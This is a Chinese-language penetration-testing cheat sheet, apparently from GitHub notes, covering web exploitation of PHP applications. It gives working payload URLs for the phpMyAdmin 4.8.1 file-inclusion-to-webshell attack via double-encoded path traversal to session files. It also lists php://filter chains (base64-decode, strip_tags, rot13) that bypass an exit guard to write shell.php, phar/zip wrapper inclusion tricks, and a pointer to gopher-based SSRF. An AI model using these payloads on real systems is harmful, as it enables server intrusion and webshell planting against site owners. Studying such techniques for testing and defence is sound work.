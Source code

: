 - phpmyadmin 4.8.1后台getshell【利用包含漏洞】：

  - [https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

  - [https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)

  - session文件名为：sess + SessionID

  - SessionID是返回数据包Cookies的phpMyAdmin字段

  - session文件具体位置看具体环境：phpStudy在`E:\phpStudy\PHPTutorial\tmp\tmp\`；Linux在php资源文件下如`/var/lib/php/sessions/`

  - payload如：phpStudy

    ```
    http://localhost/phpMyAdmin-4.8.1/index.php?target=db_sql.php
    %253f/../../../../../phpStudy/PHPTutorial/tmp/tmp/sess_vhdegb04rh891qn4pq7h1fkg4eqk75la

    http://localhost/phpMyAdmin-4.8.1/index.php?target=db_sql.php%253f/../../../tmp/tmp/sess_vhdegb04rh891qn4pq7h1fkg4eqk75la
    ```

- php

  - php://filter 作为一个“中间流”来处理其他流：[https://www.leavesongs.com/PENETRATION/php-filter-magic.html](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

    ```
    1、编码读取文件内容：
    php://filter/read=convert.base64-encode/resource=./xxe.php

    2、去除“死亡exit”：
    <?php
    $content = '<?php exit; ?>';
    $content .= $_POST['txt'];
    file_put_contents($_POST['filename'], $content);
    方法：
    ①php://filter/write=convert.base64-decode/resource=shell.php
    ②由于php也是xml标签语言，可以使用strip_tags去除。我们可以先将webshell用base64编码；在调用完成strip_tags后再进行base64-decode。“死亡exit”在第一步被去除，而webshell在第二步被还原。
    php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
    ③使用rot13编码，在PHP不开启short_open_tag时，默认关掉，php不认识这个字符串【<?cuc rkvg; ?>】，也就不会执行。
    php://filter/write=string.rot13/resource=shell.php
    ...
    ```

  - 利用phar/zip协议绕过有强制后缀的文件**包含**，如只能上传jpg/png/gif文件且自动在最后加上 .php 后缀，`http://xxx.xxx.xxx.xxx/index.php?id=phar://路径/x.jpg/shell`。

  - 利用curl+gopher协议进行SSRF漏洞利用：[Do Evil Things with gopher://](http://blog.neargle.com/SecNewsBak/drops/Do%20Evil%20Things%20with%20gopher%20.html)


